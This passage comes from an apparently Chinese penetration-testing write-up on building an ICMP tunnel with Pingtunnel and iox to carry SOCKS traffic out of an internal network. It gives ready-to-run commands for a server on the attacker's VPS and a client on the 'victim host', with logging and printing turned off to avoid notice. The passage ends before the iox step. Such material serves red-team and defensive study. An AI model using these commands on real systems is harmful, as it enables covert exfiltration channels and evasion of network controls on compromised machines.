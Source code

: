 [![](assets/1708095858-c69b84b1c3943e9d14337e66bb6dfd1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202846-e21d92f6-e8e4-1.png)

#### Pingtunel 配合 iox 代理 socks 出网

Pingtunnel 搭建完 ICMP 隧道后，通过 iox 配合代理 Socks5 出网，以达到内网穿透。

1、服务端（VPS），Pingtunnel 搭建 ICMP 隧道，这里选择不打印日志

```plain
sudo ./pingtunnel -type server -noprint 1 -nolog 1 -key 000000
```

[![](assets/1708095858-4f824631e3e555be493e023a20c647a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202857-e903060a-e8e4-1.png)

2、客户端（受害主机），启动 Pingtunnel，打通 ICMP 隧道（注意 ICMP 转发方式为 TCP）

```plain
pingtunnel.exe -type client -l [本机 IP：ICMP 隧道端口] -s [服务端 IP_VPS] -t [服务端 IP_VPS:ICMP 隧道转发至 VPS 的端口] -tcp 1 -noprint 1 -nolog 1 -key [密钥]
pingtunnel.exe -type client -l 127.0.0.1:3389 -s 1.x.x.x -t 1.x.x.x:3333 -tcp 1 -noprint 1 -nolog 1 -key 000000
```
